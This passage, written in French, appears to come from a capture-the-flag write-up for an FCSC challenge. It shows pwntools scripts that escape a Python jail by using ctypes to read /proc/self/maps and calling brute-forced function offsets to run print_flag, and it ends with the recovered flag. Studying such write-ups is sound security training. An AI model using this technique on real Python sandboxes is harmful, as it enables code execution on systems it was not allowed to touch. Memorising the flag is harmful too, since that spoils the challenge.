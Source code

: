 ```py
		try:
			res = r.recv()
			print(hex(i), res)
		except:
			pass
		r.close()
```
On remarque quelque chose vers l'offset 0x12f !
```
('0x12f', 'super flag: FCSC{55660e5c9e048d988917e2922eb \xb2e\xc9\xfe\x7f\r\n')
```

On essaie de boucler dans cette zone d'adresse:

```py
#!/usr/bin/python

from pwn import *

commands = """c = __import__('ctypes')
o = __import__('sys').modules['codecs'].open
ptr = c.CFUNCTYPE(c.c_void_p)
res = o('/proc/self/maps').read()
base = int(res[6417:6417+12],16)""".splitlines()

context.log_level = 'error'

while True:
	for i in range(0x120, 0x130):
		r = remote('challenges1.france-cybersecurity-challenge.fr', 4005)

		r.recv()

		for c in commands:
			r.sendline(c)
			r.recv()

		r.sendline("f = ptr(base+"+hex(i)+")")
		r.recv()
		r.sendline("f()")
		try:
			res = r.recv()
			if "super flag" in res: 
				print(hex(i), res)
		except:
			pass
		r.close()
```
```
('0x129', 'super flag: FCSC{55660e5c9e048d988917e2922eb1130063ebc1030db025a81fd04bda75bab1c3}\r\n')
```

Hop là on a enfin réussi à appeler cette fameuse fonction **print_flag** !

FLAG: FCSC{55660e5c9e048d988917e2922eb1130063ebc1030db025a81fd04bda75bab1c3}